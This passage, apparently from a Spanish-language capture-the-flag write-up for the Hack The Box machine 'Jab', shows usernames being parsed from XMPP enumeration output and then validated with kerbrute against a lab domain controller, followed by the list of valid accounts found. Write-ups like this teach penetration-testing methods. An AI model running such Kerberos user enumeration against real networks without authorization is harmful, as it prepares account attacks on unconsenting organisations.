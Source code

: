 </figure>   `XMPP_ENUM`
<figure>
<img src="/assets/img/Jab/Imagen11.png" >
</figure>  
Esto lo hacemos con la finalidad de controlar la salida del archivo y quedarnos solo con el nombre de usuario, para aquello utilizamos el siguiente formato 
```zsh
grep jab.htb xmpp_enu.txt | awk -F \> '{print $2}' | awk -F @ '{print $1}' | sort -u > posibles_usuarios.txt
```

Utilizamos kerbrute para validar que los usuarios sean validos 

```zsh
kerbrute userenum --dc 10.10.11.4 -d jab.htb posibles_usuarios.txt 

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 11/15/24 - Ronnie Flathers @ropnop

2024/11/15 05:03:52 >  Using KDC(s):
2024/11/15 05:03:52 >  	10.10.11.4:88

2024/11/15 05:03:52 >  [+] VALID USERNAME:	 aaltman@jab.htb
2024/11/15 05:03:52 >  [+] VALID USERNAME:	 aallen@jab.htb
2024/11/15 05:03:52 >  [+] VALID USERNAME:	 abernard@jab.htb
2024/11/15 05:03:52 >  [+] VALID USERNAME:	 aaaron@jab.htb
2024/11/15 05:03:52 >  [+] VALID USERNAME:	 abarr@jab.htb
2024/11/15 05:03:52 >  [+] VALID USERNAME:	 abeckner@jab.htb
2024/11/15 05:03:52 >  [+] VALID USERNAME:	 aanderson@jab.htb
2024/11/15 05:03:52 >  [+] VALID USERNAME:	 aarrowood@jab.htb
2024/11/15 05:03:52 >  [+] VALID USERNAME:	 abeaubien@jab.htb
2024/11/15 05:03:52 >  [+] VALID USERNAME:	 abanks@jab.htb
2024/11/15 05:03:53 >  [+] VALID USERNAME:	 abing@jab.htb
2024/11/15 05:03:53 >  [+] VALID USERNAME:	 abriggs@jab.htb
2024/11/15 05:03:53 >  [+] VALID USERNAME:	 abowman@jab.htb
```
